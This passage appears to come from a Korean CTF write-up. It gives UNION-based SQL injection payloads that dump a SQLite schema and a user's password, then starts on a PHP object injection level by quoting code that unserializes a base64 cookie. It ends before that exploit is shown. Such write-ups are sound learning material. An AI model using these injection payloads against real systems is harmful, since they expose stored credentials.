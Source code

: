 우선 

```
0 union select sql, 2 from sqlite_master where name='users'--
```

위의 코드로 테이블 정보를 긁어오고. 

```
0 union select 1,password from users where id=1--
```

이걸로 해결. 



2. <h3>level4
   </h3>

   php object injection이다. 꽤 귀찮다. 

   코드를 확인하면 serialize랑 unserialize가 있는데 , 이걸 보고 object injetion인걸 파악했다.

   ```php
   if (isset ($_COOKIE['leet_hax0r'])) {
       $sess_data = unserialize (base64_decode ($_COOKIE['leet_hax0r']));
       try {
           if (is_array($sess_data) && $sess_data['ip'] != $_SERVER['REMOTE_ADDR']) {
               die('CANT HACK US!!!');
           }
       } catch(Exception $e) {
           echo $e;
       }
   } else {
       $cookie = base64_encode (serialize (array ( 'ip' => $_SERVER['REMOTE_ADDR']))) ;
       setcookie ('leet_hax0r', $cookie, time () + (86400 * 30));
   }
   ```

   이걸 보면  leet_hax0r라는 쿠키값이 세팅되어 잇으면 해당 값을 base64로 디코딩하고 unserialize함. 
   따라서  leet_hax0r라는 쿠키가 공격을 위한 벡터라는걸 알 수 있음

   ```php
   $sql = new SQL();
   $sql->connect();
   $sql->query = 'SELECT username FROM users WHERE id=';
   ```

   sql이라는 object를 생성하고 sql이라는 변수에 담은 후 connect()함수를 실행하고 쿼리라는 proerty에
   sql쿼리를 선언함.

   ```php
   if (isset ($_REQUEST['id']) && is_numeric ($_REQUEST['id'])) {
       try {
           $sql->query .= $_REQUEST['id'];
       } catch(Exception $e) {
           echo ' Invalid query';
       }
   }
   ```
